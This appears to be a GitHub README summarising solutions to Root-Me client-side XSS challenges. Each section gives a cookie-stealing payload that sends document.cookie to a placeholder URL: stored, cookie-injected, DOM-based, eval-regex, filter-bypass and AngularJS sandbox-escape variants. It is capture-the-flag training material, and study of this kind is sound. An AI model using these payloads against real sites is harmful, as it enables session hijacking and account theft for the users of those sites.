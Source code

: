 # Rootme-App-Client
App Client Challenges Summary

### XSS- Stored 1
Post a message with content is the following:
`<script>window.location.href="URL?c="+document.cookie</script>
`
### XSS - Stored 2
Post a random message, then Ctrl + U to view source code. 

There are 2 style definitions : `invite` & `admin`.

Besides, when open cookies manage, we see a value of `status` is `invite`. 

Change this value into `admin` and try posting a message, this change will affect to tag `i` after message title.

So we're going to exploit this.

Change `status` cookie into `"><script>window.location.href="URL?c="+document.cookie</script>` and post a message

### XSS DOM Based - Introduction

Submit a random number, we will see url has a param `number`. 

Ctrl + U to view source code. `number` variable get value from URL param.

Exploit this.

Submit number `'; window.location.href="URL?c="+document.cookie//`. 

This will break `''` of `number` variable, add `fetch` into script.

Submit URL in `Contact` page with param `RootmeURL?number='; window.location.href="URL?c="+document.cookie//`

### XSS DOM Based - Eval
This web use regex  /^\d+[\+|\-|\*|\/]\d+/ to check input. We can bypass by using the following input:

``1*24+";window.location.href=`URL?c=`+document.cookie;//"``

### XSS DOM Based - Filters Bypass
This web filters `;` or `+`. So we use `concat` instead.

It also filters `https` to check redirect. 

``'.concat(eval('document.location=`//URL?c=${document.cookie}`'))//``

### XSS DOM Based - AngularJS
Create base64 of redirect command:

`btoa("window.location.href='URL?c='+document.cookie")`

Submit the following URL in `contact` page

``RootMeURL/?name={{constructor.constructor("eval(atob(`<base64>`))")()}} ``

